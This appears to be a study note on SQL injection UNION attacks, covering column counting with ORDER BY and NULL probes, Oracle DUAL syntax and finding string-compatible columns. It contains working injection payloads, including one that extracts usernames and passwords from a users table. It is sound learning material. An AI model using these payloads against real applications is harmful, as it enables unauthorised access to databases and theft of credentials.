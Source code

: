 >- When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the `UNION` keyword to retrieve data from other tables within the database.
>
>>[!info] UNION Query
>>- Enables you to execute one or more additional `SELECT` queries and append the results to the original query:
>>```sql
>>SELECT a, b FROM table1 UNION SELECT c, d FROM table2
>>```
>>- For a `UNION` query to work, two key requirements must be met:
>>1. The individual queries must return the same number of columns.
>>2. The data types in each column must be compatible between the individual queries.
>- To carry out a SQL injection UNION attack you normally need to find out:
>
>>[!tip] The number of columns required
>>- There are two effective methods to determine how many columns are being returned from the original query:
>> 
>>>[!bug] ORDER BY
>>>- Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs:
>>>```sql
>>>' ORDER BY 1-- 
>>>' ORDER BY 2-- 
>>>' ORDER BY 3-- 
>>>etc.
>>>```
>>
>>>[!bug] NULL
>>>- Submitting a series of `UNION SELECT` payloads specifying a different number of null values until an error occurs: 
>>> ```sql
>>> ' UNION SELECT NULL-- 
>>> ' UNION SELECT NULL,NULL-- 
>>> ' UNION SELECT NULL,NULL,NULL-- 
>>> etc.
>>>```
>>>  
>>>>[!info] Database-specific syntax
>>>>- On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table.
>>>>- There is a built-in table on Oracle called `dual` which can be used for this purpose:
>>>>```sql
>>>>' UNION SELECT NULL FROM DUAL--
>>>>```
>>>>- On Oracle, you can also use the concatenation operator `||` to retrieve multiple values together from  a single column:
>>>>```sql
>>>>' UNION SELECT username || '~' || password FROM users--
>>>>```
>>>>- On MySQL, the double-dash sequence must be followed by a space `-- `.
>>>>- Alternatively, the hash character `#` can be used to identify a comment.
>
>>[!tip] Finding columns with a compatible data type
>>- The data that you want to retrieve is normally in string form.
>>- This means you need to find one or more columns in the original query results whose data type is, or is compatible with, string data:
>>```sql
>>' UNION SELECT 'a',NULL,NULL,NULL-- 
>>' UNION SELECT NULL,'a',NULL,NULL-- 
>>' UNION SELECT NULL,NULL,'a',NULL-- 
>>' UNION SELECT NULL,NULL,NULL,'a'-- 
>>```